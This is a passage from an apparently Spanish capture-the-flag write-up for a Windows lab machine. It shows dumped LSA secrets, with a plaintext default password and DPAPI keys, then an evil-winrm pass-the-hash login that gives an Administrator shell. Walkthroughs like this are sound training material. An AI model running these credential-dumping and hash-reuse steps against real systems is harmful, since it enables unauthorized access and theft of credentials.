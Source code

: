 ```bash
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword
DRIVER\tony:liltony
[*] DPAPI_SYSTEM
dpapi_machinekey:0x68d8efd1bd3fa3ab206268f0bbc6e2a4a5e4b43e
dpapi_userkey:0x68060403e8f0276a683ad704b45dc7b850d9722f
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

- Ahora aplicamos `passathehash` y nos conectamos como el usuario `Administrator`.

```bash
➜  content evil-winrm -i 10.129.250.229 -u Administrator -H d1256cff8b5b5fdb8c327d3b6c3f5017

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
driver\administrator
```

